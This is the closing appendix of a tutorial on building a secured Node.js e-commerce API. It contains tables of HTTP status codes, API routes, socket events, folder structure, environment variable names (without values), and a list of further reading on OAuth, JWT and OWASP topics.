| 202 Accepted | Work started, not finished | refund initiated |
| 204 No Content | Success, no body | logout, delete |
| 302 Found | Redirect | OAuth start/callback |
| 400 Bad Request | Malformed or invalid input | zod/Mongoose validation, bad signature, bad JSON |
| 401 Unauthorized | Not authenticated (missing/invalid/expired/revoked token) | `AUTH_REQUIRED`, `TOKEN_EXPIRED`, `INVALID_TOKEN`, `TOKEN_REVOKED`, `TOKEN_REUSE` |
| 403 Forbidden | Authenticated, not allowed | `authorize`, CSRF origin rejection |
| 404 Not Found | Missing *or hidden* resource | unknown route, other user's order |
| 409 Conflict | State conflict | duplicate email, insufficient stock, invalid transition |
| 413 Payload Too Large | Body over the limit | body parser |
| 429 Too Many Requests | Rate limited | `RATE_LIMITED` |
| 500 Internal Server Error | Our bug | generic message, stack only in logs |
| 502 Bad Gateway | Upstream failed | Razorpay API error |

## B. API route reference

| Method & path | Auth | Purpose |
|---|---|---|
| `GET /api/v1/health` | none | liveness |
| `POST /auth/register` · `/login` | none (rate-limited) | create account / log in (sets cookies) |
| `POST /auth/refresh` | refresh cookie | rotate tokens |
| `POST /auth/logout` | optional | blacklist + revoke family |
| `POST /auth/logout-all` | user | revoke every session |
| `POST /auth/forgot-password` · `/reset-password` | none | reset flow |
| `GET /auth/:provider` · `/auth/:provider/callback` | none | OAuth (google, github, discord) |
| `GET/PATCH /users/me` | user | profile |
| `GET /users/me/sessions` · `DELETE /users/me/sessions/:id` | user | devices (owner-only) |
| `GET /products` · `GET /products/:id` | none | catalog |
| `POST/PATCH/DELETE /products(/:id)` | admin | catalog management |
| `GET /cart` · `PUT /cart/items` · `DELETE /cart/items/:productId` · `DELETE /cart` | user | cart |
| `POST /orders/checkout` | user | order + Razorpay order |
| `GET /orders` · `GET /orders/:id` | user (owner only) | history |
| `POST /payments/verify` | user | client signature check |
| `POST /payments/webhook` | HMAC signature | Razorpay source of truth |
| `GET /admin/orders` · `PATCH /admin/orders/:id/status` · `POST /admin/orders/:id/refund` | admin | order management |

**Socket events (server → client):** `connected`, `payment:captured`, `payment:failed`, `order:paid`, `order:status`, and `order:new` (admins only).

## C. Folder structure recap

The final tree is in [Section 0](#final-folder-structure). Dependency direction, always one-way:

```
routes → controllers → services → models
            ↓              ↓
        validators      config / utils
```

`middleware/` sits beside routes. `sockets/` and the webhook controller are just *other doors* into the same services.

## D. Environment variables

| Variable | Purpose |
|---|---|
| `NODE_ENV`, `PORT`, `TRUST_PROXY` | runtime |
| `SERVER_URL`, `CLIENT_URL`, `CLIENT_ORIGINS` | OAuth callbacks, redirects, CORS allowlist |
| `MONGO_URI`, `REDIS_URL` | datastores |
| `JWT_ACCESS_SECRET`, `JWT_REFRESH_SECRET`, `ACCESS_TOKEN_TTL_MIN`, `REFRESH_TOKEN_TTL_DAYS` | tokens |
| `COOKIE_SAMESITE` | `lax` / `strict` / `none` |
| `GOOGLE_*`, `GITHUB_*`, `DISCORD_*` (`CLIENT_ID`/`CLIENT_SECRET`) | OAuth (optional) |
| `RAZORPAY_KEY_ID`, `RAZORPAY_KEY_SECRET`, `RAZORPAY_WEBHOOK_SECRET` | payments |

## E. Further reading

- OWASP Top 10, especially *A01 Broken Access Control*, and the OWASP Cheat Sheets: Authentication, Session Management, CSRF, Password Storage, JWT.
- RFC 6749 (OAuth 2.0), RFC 7636 (PKCE), RFC 9700 (OAuth 2.0 Security Best Current Practice), RFC 7519 (JWT).
- MDN: *CORS*, *Set-Cookie* (SameSite), *Same-origin policy*.
- Razorpay docs: Orders API, Payment Verification, Webhooks (validate and idempotency), Refunds.
- Socket.io docs: *Using multiple nodes*, *Redis adapter*, *Handling CORS*.
- Express docs: *Error handling*, *Behind proxies*. Mongoose docs: *Middleware*, *Indexes*.

---

*You made it. If you've followed along, you didn't just build an API: you built the thing interviewers describe when they say "walk me through how you'd secure a real backend". Break it on purpose, read the war stories again, and then build the frontend. See you in the next one.* 🚀
